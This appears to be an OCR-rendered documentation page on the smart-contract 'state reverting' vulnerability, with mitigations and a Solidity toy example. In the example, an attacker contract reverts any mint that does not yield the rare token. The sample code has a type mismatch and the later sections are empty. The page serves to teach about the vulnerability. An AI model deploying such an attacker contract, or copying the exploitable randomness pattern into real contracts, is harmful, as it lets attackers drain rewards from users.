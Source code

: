 # State Reverting Vulnerability
This type of vulnerability occurs when the contract’s state variables are exposed to external calls through the state-reverting mechanism. This exposure allows attackers to intentionally manipulate critical states, potentially exploiting the contract~\cite{liao2023smartstate}. An example application where this vulnerability can be exploited is dApps with probabilistic reward mechanisms by allowing an attacker to selectively accept favorable outcomes. An adversary interacts with the contract through an auxiliary contract, recording their balance before invoking a reward function. If an unfavorable outcome occurs, they trigger a condition that forces the contract to revert, effectively undoing the transaction. By repeating this process, the attacker guarantees receiving only the high-value reward, undermining fairness and causing financial losses. Mitigation strategies include committing outcomes before exposure, using verifiable randomness, and preventing repeated manipulation.

## Toy Example
```Solidity
contract TokenGame {
    mapping(address => uint256) public SheepToken;
    mapping(address => uint256) public WolfToken;

    function MintToken(address account) public {
        uint256 seed = (random() >> 245) % 10;

        if (seed != 0) {
            SheepToken[account]++;
        } else {
            // The attacker exploits this condition
            WolfToken[account]++;
        }
    }
}

contract Attacker {
    function onlyWolf(TokenGame target, uint256 tokenId) public {
        uint256 Before = target.WolfToken(address(this));
        target.MintToken(tokenId);
        uint256 After = target.WolfToken(address(this));

        // If the received token is undesirable, revert the transaction
        require(After > Before);
    }
}

```

## Real World Example

## References
